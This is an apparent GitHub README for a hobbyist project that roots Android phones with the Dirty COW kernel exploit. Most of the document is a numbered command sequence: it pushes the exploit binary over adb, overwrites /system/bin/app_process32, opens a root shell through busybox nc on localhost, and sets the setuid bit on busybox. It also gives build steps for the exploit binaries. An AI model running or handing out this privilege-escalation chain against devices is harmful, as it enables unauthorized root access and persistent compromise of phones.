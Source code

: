 # Test root shell for any android phone with app-process32
Test root shell for any android phone with app-process32


This is nothing more than a test. It is a limited root shell, the test is to see how much can be done in the current contex.

to use the test
download or clone and (read the contents first is allways safer) run the one-click-root.bat
It will push 4 files to /data/local/tmp on your phone, it will use the "dirtycow" exploit to 
replace (temporarily)  the app_precess32 on /system/bin
then that will "fork" a shell as root.
next command will inject the contents of the cp_comand.txt to that shell.
proof of concept you should see you can create files as and owned by root now.

The road block from here is the contex of the root. I try to cp from /dev/block to pull recovery and boot, but get permission denied
on my samsung. On my other phone it works 

I put this in the public for hope of colaberation and further the effort.


If building from source instead of using prebuilt.

*** copy the "buildables" ***folder to the "android_external" folder in you android build enviroment.
name the folder something rememberable like "dirty-cow"

cd into your enviroment work folder

then after lunch for your device

make -j* dirtycow recowvery-app_process32

should have built binaries in the output folder, that you built.


USEAGE outside of using the scripts:

1: adb push dirtycow /data/local/tmp/dirtycow

2: adb push recowvery-app_process32 /data/local/tmp/recowvery-app_process32

***** used busybox that was prebilt and did not include busybox.c , you can find git that has busybox.c and build if desired*******
3: adb push busybox /data/local/tmp/busybox

4: adb shell chmod 0777 /data/local/tmp/*

5: adb shell /data/local/tmp/dirtycow /system/bin/app_process32 /data/local/tmp/recowvery-app_process32
*** after dirty cow finishes wait about 1 minute, phone is expected to soft reboot and buttons and screen become non responsive, while adb remain connected.

6: adb shell

7: /data/local/tmp/busybox nc localhost 11112
*** this should open a promtless shell with root access, you see cpio and no cuser. You can type and see your entry

8: mkdir /data/local/test     

9: /system/bin/chmod 0777 /data/local/test

10: ls -l /data/local

11: cp /data/local/tmp/busybox /data/local/test/busybox

12: /system/bin/chmod 0777 /data/local/test/busybox

13: ls -l /data/local/test                                  

14: /system/bin/chmod +s /data/local/test/busybox           

15: ls -l /data/local/test                                  shows can chmod files that are owned by root                                 

16: whoami                                                  shows the id of shell (root)

17: pwd                                                     shows the current dir

18: exit
